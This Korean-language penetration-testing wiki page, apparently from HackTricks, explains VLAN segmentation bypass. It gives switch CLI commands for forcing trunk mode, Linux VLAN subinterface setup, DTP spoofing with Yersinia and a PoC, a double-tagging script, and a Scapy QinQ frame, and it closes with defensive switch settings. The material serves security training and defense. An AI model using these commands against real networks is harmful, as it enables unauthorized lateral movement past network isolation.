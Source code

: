 # Lateral VLAN Segmentation Bypass

{{#include ../../banners/hacktricks-training.md}}

스위치에 직접 접근할 수 있는 경우, VLAN 세분화를 우회할 수 있습니다. 이는 연결된 포트를 트렁크 모드로 재구성하고, 대상 VLAN에 대한 가상 인터페이스를 설정하며, 시나리오에 따라 동적으로(DHCP) 또는 정적으로 IP 주소를 설정하는 것을 포함합니다 (**자세한 내용은 [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9) 확인하세요.**)

먼저, 특정 연결된 포트를 식별해야 합니다. 이는 일반적으로 CDP 메시지를 통해 수행되거나 **include** 마스크를 통해 포트를 검색하여 수행할 수 있습니다.

**CDP가 작동하지 않는 경우, MAC 주소를 검색하여 포트 식별을 시도할 수 있습니다**:
```
SW1(config)# show mac address-table | include 0050.0000.0500
```
트렁크 모드로 전환하기 전에 기존 VLAN 목록을 작성하고 해당 식별자를 확인해야 합니다. 이러한 식별자는 인터페이스에 할당되어 트렁크를 통해 다양한 VLAN에 접근할 수 있게 합니다. 사용 중인 포트는 예를 들어 VLAN 10과 연결되어 있습니다.
```
SW1# show vlan brief
```
**트렁크 모드로 전환하려면 인터페이스 구성 모드에 들어가야 합니다**:
```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```
트렁크 모드로 전환하면 일시적으로 연결이 중단되지만, 이후에 복구할 수 있습니다.

그런 다음 가상 인터페이스가 생성되고, VLAN ID가 할당되며, 활성화됩니다:
```bash
sudo vconfig add eth0 10
sudo vconfig add eth0 20
sudo vconfig add eth0 50
sudo vconfig add eth0 60
sudo ifconfig eth0.10 up
sudo ifconfig eth0.20 up
sudo ifconfig eth0.50 up
sudo ifconfig eth0.60 up
```
그 후, DHCP를 통해 주소 요청이 이루어집니다. 또는 DHCP가 불가능한 경우, 주소를 수동으로 구성할 수 있습니다:
```bash
sudo dhclient -v eth0.10
sudo dhclient -v eth0.20
sudo dhclient -v eth0.50
sudo dhclient -v eth0.60
```
인터페이스(VLAN 10)에서 정적 IP 주소를 수동으로 설정하는 예:
```bash
sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```
연결성은 VLAN 10, 20, 50 및 60의 기본 게이트웨이에 ICMP 요청을 시작하여 테스트됩니다.

궁극적으로 이 프로세스는 VLAN 세분화를 우회할 수 있게 하여 모든 VLAN 네트워크에 대한 제한 없는 액세스를 용이하게 하고, 이후 작업을 위한 기반을 마련합니다.

---

## 기타 VLAN-Hopping 기술 (특권 스위치 CLI 없음)

이전 방법은 스위치에 대한 인증된 콘솔 또는 Telnet/SSH 액세스를 가정합니다. 실제 상황에서 공격자는 일반 **액세스 포트**에 연결되어 있는 경우가 많습니다. 다음 Layer-2 트릭은 스위치 OS에 로그인하지 않고도 수평으로 이동할 수 있게 해줍니다:

### 1. 동적 트렁킹 프로토콜(DTP)을 이용한 스위치 스푸핑

DTP가 활성화된 Cisco 스위치는 피어가 스위치라고 주장하면 기꺼이 트렁크를 협상합니다. 단일 **DTP “desirable”** 또는 **“trunk”** 프레임을 작성하면 액세스 포트가 *모든* 허용된 VLAN을 전송하는 802.1Q 트렁크로 변환됩니다.

*Yersinia* 및 여러 PoC가 이 프로세스를 자동화합니다:
```bash
# Become a trunk using Yersinia (GUI)
$ sudo yersinia -G          # Launch GUI → Launch attack → DTP → enabling trunking

# Python PoC (dtp-spoof)
$ git clone https://github.com/fleetcaptain/dtp-spoof.git
$ sudo python3 dtp-spoof/dtp-spoof.py -i eth0 --desirable
```
포트가 트렁크로 전환되면 802.1Q 서브 인터페이스를 생성하고 이전 섹션에 표시된 대로 정확히 피벗할 수 있습니다. 최신 Linux 커널은 더 이상 *vconfig*를 필요로 하지 않으며, 대신 *ip link*를 사용하십시오:
```bash
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.30 type vlan id 30
sudo ip addr add 10.10.30.66/24 dev eth0.30
sudo ip link set eth0.30 up
```
### 2. 더블 태깅 (네이티브 VLAN 남용)

공격자가 **네이티브 (태그가 없는) VLAN**에 있을 경우, *두 개*의 802.1Q 헤더가 있는 조작된 프레임은 포트가 액세스 모드로 잠겨 있어도 두 번째 VLAN으로 "홉"할 수 있습니다. **VLANPWN DoubleTagging.py** (2022-2024 리프레시)와 같은 도구는 주입을 자동화합니다:
```bash
python3 DoubleTagging.py \
--interface eth0 \
--nativevlan 1 \
--targetvlan 20 \
--victim 10.10.20.24 \
--attacker 10.10.1.54
```
패킷 통과:
1. 외부 태그 (1)는 기본 VLAN과 일치하기 때문에 첫 번째 스위치에 의해 제거됩니다.
2. 내부 태그 (20)가 이제 노출되며, 프레임은 VLAN 20으로 향하는 트렁크로 전달됩니다.

이 기술은 기본 VLAN을 기본값으로 두고 태그가 없는 프레임을 수용하는 네트워크에서 2025년에도 여전히 작동합니다.

### 3. QinQ (802.1ad) 스태킹

많은 기업 코어는 *Q-in-Q* 서비스 제공업체 캡슐화를 지원합니다. 허용되는 경우, 공격자는 공급자(S-tag) 내부에 임의의 802.1Q 태그가 있는 트래픽을 터널링하여 보안 구역을 넘을 수 있습니다. 802.1ad 이더타입 0x88a8을 캡처하고 Scapy로 외부 태그를 팝하려고 시도하십시오:
```python
from scapy.all import *
outer = 100      # Service tag
inner = 30       # Customer / target VLAN
payload = Ether(dst="ff:ff:ff:ff:ff:ff")/Dot1Q(vlan=inner)/IP(dst="10.10.30.1")/ICMP()
frame = Dot1Q(type=0x88a8, vlan=outer)/payload
sendp(frame, iface="eth0")
```
---

## 방어 권장 사항

1. 모든 사용자-facing 포트에서 DTP 비활성화: `switchport mode access` + `switchport nonegotiate`.
2. 모든 트렁크에서 기본 VLAN을 **사용되지 않는 블랙홀 VLAN**으로 변경하고 태그 지정: `vlan dot1q tag native`.
3. 트렁크에서 불필요한 VLAN 제거: `switchport trunk allowed vlan 10,20`.
4. 포트 보안, DHCP 스누핑 및 동적 ARP 검사 시행하여 불법 Layer-2 활동 제한.
5. 802.1Q 분리에만 의존하기보다는 프라이빗 VLAN 또는 L3 세분화를 선호.

---

## 참조

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)
- VLANPWN 공격 툴킷 – <https://github.com/casterbytethrowback/VLANPWN>
- Twingate "VLAN Hopping이란?" (2024년 8월) – <https://www.twingate.com/blog/glossary/vlan%20hopping>

{{#include ../../banners/hacktricks-training.md}}
